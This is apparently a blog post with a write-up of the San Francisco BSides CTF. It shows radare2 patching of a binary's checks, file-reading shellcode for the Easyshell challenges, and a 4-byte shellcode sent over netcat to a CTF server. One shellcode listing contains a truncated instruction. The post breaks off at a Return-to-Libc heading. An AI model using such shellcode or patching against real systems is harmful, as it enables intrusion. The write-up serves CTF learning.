 #+BEGIN_EXPORT html
---
layout: page
title: San Francisco BSides CTF Writeup
excerpt: A quick writeup of San Francisco Bsides CTF
tags:
  - ctf
  - infosec
category: note
---
#+END_EXPORT

* Conference
  In my short life, I've seen security conferences move from /"hide the speed,
  quick!"/ to /"Security professionals discuss shifting circumstances in information
  assurance policy"/.

  At no other hacker conference is it clearer than at BSides that the racous
  parties and threats of e-violence have been replaced with hushed tones and
  artifical lighting.

  Still, because of the conference's stature in the Bay Area, many of the
  intelligensia of the San Francisco haqr scene undoubtedly will make an appearance.
  Lots of drinks were handed out, door security was lax and the hallway track was
  as alive as any other similarly sized conference.

  I lost interest in the talks fairly quickly, but a friend invited me to play the
  CTF and I was immediately impressed. The Bsides crew managed to avoid many of
  the lame consecutive challenge formats and structural deficits that have made
  other CTFs tiresome. A large number of challenges tackling very diverse
  subjects. No one group (even 'professional' CTF teams) managed to secure an
  answer to every challenge.

* Writeups

  Because so many of these challenges don't have their answers published by their
  organizers after the event is settled, it's up to the community to put together
  'writeups' of the techniques employed in solving these. 

  Here's a few of those.


** NOP
   The =NOP= instruction is microcode for =xchg EAX, EAX=
** easycap
   This challenge doesn't include the flag in a string because it's spread out over
   multiple packets. You can easily extract the flag by 'following' a TCP stream in
   your network packet capture software of choice.

** easy
   This challenge doesn't require you to perform any reverse engineering as the
   the flag is visible as a direct =.symstrtab= entry.

   #+BEGIN_EXAMPLE
zv@syszv >> strings easy-64 | grep -i flag
FLAG:db2f62a36a018bce28e46d976e3f9864
   #+END_EXAMPLE

** Skipper
   In this challenge I'm going to use one of the best disassemblers available
   today: [[http://radare.org/r/][radare]] . It is both free and contains many facilities for modifying
   the binary in various ways (without plugins). (You could also solve this
   challenge with a debugger very easily)

   #+BEGIN_EXAMPLE
   cp tmp/skipper64 /tmp/skipper64-backup # a backup in case you fubar the binary
   r2 /tmp/skipper64
   #+END_EXAMPLE

   Next, seek the read head to the =main= symbol and tap ~V~ key to bring yourself
   into disassembly.

   #+BEGIN_EXAMPLE
   [0x004026d1]> s main
   #+END_EXAMPLE

   #+BEGIN_EXAMPLE
       0x004026d1      push rbp                                                                                                                                                                                
       0x004026d2      mov rbp, rsp                                                                                                                                                                            
       0x004026d5      sub rsp, 0x420                                                                                                                                                                          
       0x004026dc      mov dword [rbp - 0x414], edi                                                                                                                                                            
       0x004026e2      mov qword [rbp - 0x420], rsi                                                                                                                                                            
       0x004026e9      mov rax, qword fs:[0x28]                   ; [0x28:8]=0x3200 ; '('                                                                                                                      
       0x004026f2      mov qword [rbp - 8], rax                                                                                                                                                                
       0x004026f6      xor eax, eax                                                                                                                                                                            
       0x004026f8      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x004026ff      mov rdi, rax                                                                                                                                                                            
       0x00402702      call 0x400b3e                              ;[1]                                                                                                                                         
       0x00402707      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x0040270e      mov rsi, rax                                                                                                                                                                            
       0x00402711      mov edi, str.Computer_name:__s_n           ; "Computer name: %s." @ 0x402987                                                                                                            
       0x00402716      mov eax, 0                                                                                                                                                                              
       0x0040271b      call sym.imp.printf                        ;[2]                                                                                                                                         
       0x00402720      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x00402727      mov esi, str.hax0rz__                      ; "hax0rz!~" @ 0x40299a                                                                                                                      
       0x0040272c      mov rdi, rax                                                                                                                                                                            
       0x0040272f      call sym.imp.strcmp                        ;[3]                                                                                                                                         
       0x00402734      test eax, eax                                                                                                                                                                           
   ┌─< 0x00402736      je 0x40275b                                ;[4]                                                                                                                                         
   │   0x00402738      lea rax, [rbp - 0x410]                                                                                                                                                                  
   │   0x0040273f      mov rsi, rax                                                                                                                                                                            
   │   0x00402742      mov edi, str.Sorry ; "Sorry, your computer's name - %s - is not correct!." @ 0x4029a8                                                    
   │   0x00402747      mov eax, 0                                                                                                                                                                              
   │   0x0040274c      call sym.imp.printf                        ;[2]                                                                                                                                         
   │   0x00402751      mov edi, 9                                                                                                                                                                              
   │   0x00402756      call sym.imp.raise                         ;[5]                                                                                                                                         
   └─> 0x0040275b      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x00402762      mov rdi, rax                                                                                                                                                                            
       0x00402765      call 0x400c4a                              ;[6]                                                                                                                                         
       0x0040276a      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x00402771      mov rsi, rax                                                                                                                                                                            
       0x00402774      mov edi, str.OS_version:__s_n              ; "OS version: %s." @ 0x4029dc                                                                                                               
       0x00402779      mov eax, 0                                                                                                                                                                              
       0x0040277e      call sym.imp.printf                        ;[2]                                                                                                                                         
       0x00402783      lea rax, [rbp - 0x410]                                                                                                                                                                  
       0x0040278a      mov esi, str.2.4.31                        ; "2.4.31" @ 0x4029ec                                                                                                                        
       0x0040278f      mov rdi, rax                                                                                                                                                                            
       0x00402792      call sym.imp.strcmp                        ;[3]                                                                                                                                         
       0x00402797      test eax, eax                                                                                                                                                                           
   ┌─< 0x00402799      je 0x4027e3                                ;[7]                                                                                                                                         
   │   0x0040279b      lea rax, [rbp - 0x410]                                                                                                                                                                  
   │   0x004027a2      mov rsi, rax                                                                                                                                                                            
   │   0x004027a5      mov edi, str.Sorry__your_OS_version____s___is_not_supported__n
   #+END_EXAMPLE

   You can see here that several functions are being called and compared against
   builtin strings like /hax0r!~/. The context gives you an idea that it's checking
   the hostname, but let's be sure.

   #+BEGIN_EXAMPLE
   [0x004026d1]> s 0x400b3e
   [0x00400b67]> pd 10 @ +64
   0x00400ba7      mov edi, 1
   0x00400bac      call sym.imp.exit
   0x00400bb1      mov ecx, 0
   0x00400bb6      mov edx, 0x40291f                          ; "-n"
   0x00400bbb      mov esi, str.uname                         ; "uname" @ 0x402922
   0x00400bc0      mov edi, str.uname                         ; "uname" @ 0x402922
   0x00400bc5      mov eax, 0
   0x00400bca      call sym.imp.execlp
   0x00400bcf      call sym.imp.__errno_location
   0x00400bd4      mov eax, dword [rax]
   #+END_EXAMPLE

   You can see it's calling =uname= here. Before you start changing your system's
   configuration to accommodate, first know it's not possible to set your hostname
   to this value.

   This means you are going to either have to use a debugger and manually change
   the =ZF=, =CF=, =OF= or other condition flags or patch up all of the =je=
   instructions.

   #+BEGIN_EXAMPLE
   [0x00400b67]> oo+ # This makes the binary writable
   [0x00400b67]> wao jmp @ 0x00402736
   [0x00400b67]> wao jmp @ 0x00402799
   ...
   #+END_EXAMPLE

   After this, run the binary and get the flag! ~FLAG:f51579e9ca38ba87d71539a9992887ff~


** TODO Skipper2

** Easyshell 1 
   Both of the easyshell puzzles are warmups who run any shellcode sent on the
   wire. However, you can't use some of the most common shellcode for spawning
   =/bin/sh= as there is no remote shell. This shellcode reads the file
   =/home/ctf/flag.txt=

   Compile with ~nasm -f bin flag.asm~

   #+BEGIN_SRC nasm
BITS 64
section .text

_start:
  xor    eax,eax
  xor    ebx,ebx
  xor    ecx,ecx
  xor    edx,edx
  jmp    read

one:
  pop    rbx
  mov    al,0x5
  xor    ecx,ecx
  int    0x80
  mov    esi,eax
  jmp    read

exit:
  mov    al,0x1
  xor    ebx,ebx
  int    0x80

read:
  mov    ebx,esi
  mov    al,0x3
  sub    esp,0x1
  lea    ecx,[rsp]
  mov    dl,0x1
  int    0x80
  xor    ebx,ebx
  cmp    ebx,eax
  je     exit
  mov    al,0x4
  mov    bl,0x1
  mov    d
  int    0x80
  add    esp,0x1
  jmp    read

two:
  call   one
  string: db "/home/ctf/flag.txt"
   #+END_SRC


** Easyshell 2
   Like the prior challenge, you simply just need to write some code to read out
   a file. I used the following.

   #+BEGIN_SRC nasm
 BITS 64
 section .text
 _start:
   jmp _push_filename

 _readfile:
   ; syscall open file
   pop rdi ; pop path value
   xor rax, rax
   add al, 2
   xor rsi, rsi ; set O_RDONLY flag
   syscall
  
   ; syscall read file
   sub sp, 0xfff
   lea rsi, [rsp]
   mov rdi, rax
   xor rdx, rdx
   mov dx, 0xfff; size to read
   xor rax, rax
   syscall
  
   ; syscall write to stdout
   xor rdi, rdi
   add dil, 1 ; set stdout fd = 1
   mov rdx, rax
   xor rax, rax
   add al, 1
   syscall
  
   ; syscall exit
   xor rax, rax
   add al, 60
   syscall
  
 _push_filename:
   call _readfile
   path: db "/home/ctf/flag.txt"
   #+END_SRC

** i-am-the-shortest
   This is a challenge designed to mimic the common constraints exploit authors must deal with.

   The premise of the challenge is that you get to execute 5 arbitrary bytes - far
   shorter than even the shortest shellcode could allow for.

   There's undoubtedly dozens of ways the problem can be solved, I've successfully used two:

*** Direct System Call
    Beginning at =0x80487ef=, the core code runs:

    #+BEGIN_SRC nasm
  call   80486db <get_flag> ;; where the 'flag' is gotten
  add    esp,0x10
  lea    eax,[ebp-0x8c]
  mov    esi,eax
  mov    ebx,0x1
  sub    esp,0x8
  lea    eax,[ebp-0x8c]
  push   eax
  push   0x8048946
  call   8048500 <printf@plt>
  add    esp,0x10
  sub    esp,0xc
  push   0x8048964
  call   8048550 <puts@plt>
  add    esp,0x10
  sub    esp,0x4
  push   0x5
  push   DWORD PTR [ebp-0x94]
  push   0x0
  call   80484f0 <read@plt> ;; where `read` is called
  add    esp,0x10
  mov    DWORD PTR [ebp-0x90],eax
  mov    edx,0xff
  cmp    DWORD PTR [ebp-0x90],0x5
  ja     804885c <main+0x10c>
  jmp    DWORD PTR [ebp-0x94] ;; here is where it finally jumps in
    #+END_SRC

    The last line is where this =jmp= to attacker-controlled memory actually
    occurs.

    Although the above code snippet doesn't show it directly, it's also important
    to note that the address of the flag read remains stored in =ESI= when the ~jmp
    [ebp-0x94]~ occurs.

    In tandem with the fact that =read= returns the length of the value read in
    =EAX=, you can abuse this by entering a system-call. (Remember, Linux calling
    convention dictates that x86 system call's interrupt vector is given in =EAX=)

    So, in total you need to write shellcode that is only *4* bytes long (rather
    than the maximum permitted of 6), you can have the interrupt vector 'prefilled'
    for you. This leaves you with only two tasks:

    - All you need to do now is find an efficient way to copy =ESI= into =ECX= (the source register for the =read= system call)
    - Actually invoking a system call.

    There are a number of ways to do the above and due to the idiosyncracies of how
    assemblers are written and how opcodes are decoded, it's possible to write many
    different variations of an instruction that vary wildly in length. Anything
    that moves the contents of ESI into ECX will do.

    After this, you need to initiate a system call, you can use either =sysenter=
    or =int 0x80= as both are encoded in 2 bytes.

    All told, the following shellcode should do just fine.
 
    #+BEGIN_SRC nasm
  mov cx, si
  int 0x80
    #+END_SRC

    I use and recommend [[http://www.nasm.us/][Netwide Assembler]], although there are other tools like
    [[https://github.com/radare/radare2/wiki/Ragg2][Ragg2]]. To generate assembly without any sort of executable format, you can use
    the following argument switches to assemble and hexdump your shellcode:

    ~nasm -f bin assembly.asm && xxd assembly~

    After this, you can encode it in whichever format you'd like and send it off!

    #+BEGIN_EXAMPLE
 [zv@syszv] /tmp >> echo -en '\x89\xf1\xcd\x80' | \
                    nc i-am-the-shortest-6d15ba72.ctf.bsidessf.net 8890
 The address of 'flag' is 0xfff3bd5c
 Send your machine code now! Max length = 5 bytes.

 FLAG:c9f053110aa0f2d28ed8978e3b03cb01
 v7`v`v7`vyy`v`vp7x%
    #+END_EXAMPLE

*** Return-to-Libc
    This is a little trickier, you need to abuse at least two different tricks here.

   
   
